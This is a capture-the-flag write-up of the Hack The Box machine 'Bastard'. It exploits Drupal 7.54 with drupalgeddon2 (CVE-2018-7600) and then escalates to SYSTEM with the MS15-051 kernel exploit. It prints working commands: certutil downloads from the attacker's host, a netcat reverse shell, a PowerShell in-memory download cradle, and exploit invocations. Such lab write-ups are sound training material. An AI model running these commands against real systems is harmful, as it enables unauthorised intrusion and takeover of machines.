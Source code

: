 
# Bastard

![image](https://user-images.githubusercontent.com/10210108/79369485-07cfe400-7f1f-11ea-905d-414b9b137c70.png)

## Overview

Bastard is a Windows Server box running a content management system called Drupal. Drual 7.54 is vulnerable to CVE-2018-7600 which allows for remote code execution. Drupalgeddon was used to get the initial shell and kernel exploit (MS15-051) was used to escalate privileges to 'nt authority/system'.

## Enumeration

* Windows Server 2008 R2
* IIS 7.5
* php 5.3.28
* drupal 7.54

**Open Ports*

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.9 -oN /mnt/data/boxes/bastard/_full_tcp_nmap.txt
```

* 80/tcp - http
* 135/tcp - Microsft Windows RPC
* 49154 - Microsoft Windows RPC

## Steps (User)

Browsing to http://10.10.10.9 brought me to a drupal login page.

![image](https://user-images.githubusercontent.com/10210108/86193250-76cdd980-bb19-11ea-89db-95acc1ca972d.png)

Checking http://10.10.10.9/robots.txt showed some interesting files including /CHANGELOG.txt which reveals the version of drupal that's running.

![image](https://user-images.githubusercontent.com/10210108/79605435-ea854c00-80bd-11ea-9500-4a548c33dc3c.png)

Running a search against searchsploit for "drupal 7" shows multiple results, 3 of which apply to the version running on the box.I decided to go with drupalgeddon2.

![image](https://user-images.githubusercontent.com/10210108/79607582-6d5bd600-80c1-11ea-8a0e-9b9a04c7699f.png)


[drupalgeddon2](https://www.exploit-db.com/exploits/44449) is an exploit written in ruby which provides a root shell (if vulnerable). I made one modification to the script, "tryphpshell = false", because it appeared there was insufficient access to the web root.

```
./44449.rb http://10.10.10.9
```

> I had to use dos2unix to convert the line endings of the file because it was throwing errors (dos2unix 44449.rb)

![image](https://user-images.githubusercontent.com/10210108/79608245-a0eb3000-80c2-11ea-9077-4d893787cccf.png)

The web shell is pretty slow so I created a reverse shell with netcat. I copied the windows version of netcat to my local working directory, started a python http server in prepration to transfer files, and started a netcat listener (rlwrap nc -lvnp 4200).

> Note: rlwrap fixes the arrow key functionality for windows reverse shells. 

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

I used certutil was used to copy netcat to the target box.

```
certutil -urlcache -split -f http://10.10.14.16/nc.exe
```

With netcat now on the box I ran the command to create a reverse shell and received a callback as 'nt authority\iusr'

```
nc.exe -e cmd 10.10.14.16 4200
```

![image](https://user-images.githubusercontent.com/10210108/79614047-ba45a980-80cd-11ea-9f36-b4085af58e80.png)


## Steps (root/system)

Running systeminfo showed N/A for hotfixes so at this point I decided to run Sherlock and check for exploits.

> I attempted this with [Watson](https://github.com/rasta-mouse/Watson) but unfortunately I was not able to compile it for .Net 2.0.

Sherlock.ps1 was copied to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I then used Powershell Invoke-Expression (IEX) to pull sherlock.ps1 from my box and run it in memory, executing the Find-AllVuns function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.16/Sherlock.ps1');Find-AllVulns"
```

![image](https://user-images.githubusercontent.com/10210108/79620360-a144f480-80dd-11ea-9b2c-7a58ae4b79fc.png)

Reviewing the results, the box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server using certutil.

```
certutil -urlcache -split -f http://10.10.14.16/ms15-051x64.exe
```

I set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit providing my IP and port as parameters
```
ms15-051x64 -e cmd.exe 10.10.14.16 4201
```

![image](https://user-images.githubusercontent.com/10210108/79620972-c0dd1c80-80df-11ea-8304-137875abf87e.png)

A callback was received and I received a shell as nt authority/system

![image](https://user-images.githubusercontent.com/10210108/79621003-d2bebf80-80df-11ea-89bc-7fa5551df4be.png)
